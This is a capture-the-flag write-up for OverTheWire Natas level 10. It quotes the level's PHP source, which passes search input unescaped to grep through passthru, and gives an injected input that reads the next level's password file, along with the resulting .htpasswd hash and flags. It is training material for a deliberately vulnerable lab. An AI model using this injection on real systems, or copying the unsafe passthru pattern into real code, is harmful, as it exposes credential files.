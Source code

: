 # Natas Level 9 → Level 10 Command Injection w/ some filter

## Previous Flag
<b>t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu</b>

## Goal
Username: natas10<br>
URL: http://natas10.natas.labs.overthewire.org<br>

For security reasons, we now filter on certain characters<br>
Find words containing: <br>
Output:<br>
View sourcecode

## What I learned
```
Since relied on passthru w/ grep can still search
```

## Solution
```
Click View source code
http://natas10.natas.labs.overthewire.org/index-source.html

<div id="content">
For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) { 👀
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

Find words containing: .* /etc/natas_webpass/natas11 #
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$apr1$tmwSSiSr$r/7J.9AX6rzxuvTp4BntO1
/etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk 🔐
```

## Flag
<b>UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk</b>

## Continue
[Continue](/overthewire/Natas1011.md)